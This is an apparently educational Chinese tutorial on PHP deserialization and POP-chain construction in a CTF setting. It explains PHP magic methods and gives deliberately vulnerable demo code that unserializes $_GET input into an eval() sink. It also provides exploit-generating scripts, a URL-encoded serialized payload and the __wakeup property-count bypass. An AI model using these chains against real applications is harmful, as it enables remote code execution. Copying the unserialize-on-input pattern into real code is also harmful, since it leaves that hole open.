


一、POP?ROP?
面向属性编程（Property-Oriented Programing） 用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作。
ROP 链构造中是寻找当前系统环境中或者内存环境里已经存在的、具有固定地址且带有返回操作的指令集
POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。
二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，前提：进行反序列化的数据能够被用户输入所控制。
二、初级利用
一般的序列化攻击都在PHP魔术方法中出现可利用的漏洞，因为自动调用触发漏洞，但如果关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造POP链寻找相同的函数名将类的属性和敏感函数的属性联系起来。
举例
demo.php
<?php
class lemon {
protected $ClassObj;
function __construct() {
$this->ClassObj = new normal();
}
function __destruct() {
$this->ClassObj->action();
}
}
class normal {
function action() {
echo "hello";
}
}
class evil {
private $data;
function action() {
eval($this->data);
}
}
unserialize($_GET['d']);crack.php
<?php
class lemon {
protected $ClassObj;
function __construct() {
$this->ClassObj = new evil();
}
}
class evil {
private $data="phpinfo();";
}
$a=new lemon();
echo urlencode(serialize($a));
?> 
protected $ClassObj = new evil();是不行的，还是通过__construct来实例化。
三、中级利用，当然这个没有链的感觉，所以看下面例子就长一点，利用了魔法函数
先解释几个魔法函数
__wakeup() //使用unserialize时触发
__sleep() //使用serialize时触发
__destruct() //对象被销毁时触发
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__toString() //把类当作字符串使用时触发
__invoke() //当脚本尝试将对象调用为函数时触发更多参考https://www.php.net/manual/zh/language.oop5.magic.php
1. __call()
PHP5 的对象新增了一个专用方法 call()，这个方法用来监视一个对象中的其它方法。如果你试着调用一个对象中不存在或被权限控制中的方法，call 方法将会被自动调用。
demo
<?php
class A
{
private function a()
{
echo "a";
}
public function __call($name,$arguments)
{
echo "调用不存在的方法名是:".$name.'<br>参数是:';
print_r($arguments);
echo '<br>';
}
$ins=new A;
$ins->b([1,2,3]);
?>
//输出结果为 调用不存在的方法名是：b 参数是：Array ( [0] => Array ( [0] => 1 [1] => 2 [2] => 3 ) ) 2. __invoke()
当尝试以调用函数的方式调用一个对象时，__invoke() 方法会被自动调用。本特性只在 PHP 5.3.0 及以上版本有效
<?php
class CallableClass
{
function __invoke($x) {
var_dump($x);
}
}
$obj = new CallableClass;
$obj(5);
var_dump(is_callable($obj));
?>输出
int(5)
bool(true)3.__toString
__toString() 方法用于一个类被当成字符串时应怎样回应。例如 echo $obj; 应该显示些什么。此方法必须返回一个字符串，否则将发出一条 E_RECOVERABLE_ERROR 级别的致命错误。
<?php
// Declare a simple class
class TestClass
{
public $foo;
public function __construct($foo)
{
$this->foo = $foo;
}
public function __toString() {
return $this->foo;
}
}
$class = new TestClass('Hello');
echo $class;
?>
//输出 Hello需要指出的是在 PHP 5.2.0 之前，__toString() 方法只有在直接使用于 echo 或 print 时才能生效。PHP 5.2.0 之后，则可以在任何字符串环境生效（例如通过 printf()，使用 %s 修饰符），但不能用于非字符串环境（如使用 %d 修饰符）。自 PHP 5.2.0 起，如果将一个未定义 __toString() 方法的对象转换为字符串，会产生 E_RECOVERABLE_ERROR 级别的错误。
4.__wakeup()
wakeup()是在反序列化操作中起作用的魔法函数，当unserialize的时候，会检查时候存在wakeup()函数，如果存在的话，会优先调用__wakeup()函数。
<?php
class xctf{
public $flag = '111';
public function __wakeup(){
print("this is __wakeup()");
}
}
$test = new xctf();
$t = serialize($test);
unserialize($t);
?>
//输出this is __wakeup()ps: wakeup()函数漏洞就是与对象的属性个数有关，如果序列化后的字符串中表示属性个数的数字与真实属性个数一致，那么i就调用wakeup()函数，如果该数字大于真实属性个数，就会绕过__wakeup()函数。
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}//这里差个反括号，但是源码确实是这样的。
?code=将上面的要求序列化后为O:4:"xctf":1:{s:4:"flag";s:3:"111";}，xctf后有一个数字1，这个1是代表这个类有一个属性。wakeup()漏洞就是与整个属性个数值有关。当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过wakeup的执行。
如，我们提交O:4:"xctf":2:{s:4:"flag";s:3:"111";}，将其改为2，得到flag。
5.construct(),destruct()
同c++的构造函数和析构函数
6.__clone()
克隆对象时被调用。如：$t=new Test()，$t1=clone $t;
7.__sleep()
serialize() 函数会检查类中是否存在一个魔术方法 __sleep()。如果存在，则该方法会优先被调用，然后才执行序列化操作。
那再看这个长的demo-第一次看确实很难受，但是理解后会发现真的妙不可言~
<?php
class start_gg
{
public $mod1;
public $mod2;
public function __destruct()
{
$this->mod1->test1();
}
}
class Call
{
public $mod1;
public $mod2;
public function test1()
{
$this->mod1->test2();
}
}
class CallFunc
{
public $mod1;
public $mod2;
public function __call($test2,$arr)
{
$s1 = $this->mod1;
$s1();
}
}
class InvokeFunc
{
public $mod1;
public $mod2;
public function __invoke()
{
$this->mod2 = "字符串拼接".$this->mod1;
}
}
class ToStringFunc
{
public $str1;
public $str2;
public function __toString()
{
$this->str1->get_flag();
return "1";
}
}
class GetFlag
{
public function get_flag()
{
echo "flag:"."flag{test}";
}
}
$a = $_GET['string'];
unserialize($a);
?>我们一步一步来处理
- 首先要利用class GetFlag中的get_flag,所以我们只要有一个
1-ToStringFunc类的实例当字符串来使用 - InvokeFunc中使用了字符串拼接可以利用，所以我们只要有一个
2-InvokeFunc类的实例，并且str1要是1-ToStringFunc，并且这个类要当函数使用 - CallFunc中刚好有一个 $s1();函数调用，所以我们只要有一个
3-CallFunc类的实例，并且mod1要是2-InvokeFunc，并且要调用一次不存在的函数 - Call中刚好有一个test2函数调用，并且不存在，所以我们只要一个
4-Call的类的实例，并且mod1要是3-CallFunc - 最后需要一个自动函数调用的方法，刚好start_gg有一个析构函数，所以我们只要一个
5-startgg类的实例，并且mod1要是4-call
完美~这就是艺术
ps:protected $ClassObj = new evil();是不行的，还是通过__construct来实例化。
在序列化之前只调用__construct函数，并且序列化将对象转换成字符串，仅保留对象里的成员变量，不保留函数方法。
所以构造的时候只要记录我们需要的属性+构造函数即可
<?php
class GetFlag
{
public function get_flag()
{
echo "flag:"."flag{Test}";
}
}
class ToStringFunc
{
public $str1;
public function __construct()
{
$this->str1=new GetFlag();
}
}
class InvokeFunc
{
public $mod1;
public function __construct()
{
$this->mod1= new ToStringFunc();
}
}
class CallFunc
{
public $mod1;
public function __construct()
{
$this->mod1=new InvokeFunc();
}
}
class Call
{
public $mod1;
public function __construct()
{
$this->mod1=new CallFunc();
}
}
class start_gg
{
public $mod1;
public function __construct()
{
$this->mod1=new Call();
}
}
$b = new start_gg;//构造start_gg类对象$b
echo urlencode(serialize($b));
?>输出O%3A8%3A%22start_gg%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A4%3A%22Call%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A8%3A%22CallFunc%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A10%3A%22InvokeFunc%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A12%3A%22ToStringFunc%22%3A1%3A%7Bs%3A4%3A%22str1%22%3BO%3A7%3A%22GetFlag%22%3A0%3A%7B%7D%7D%7D%7D%7D%7D

秒啊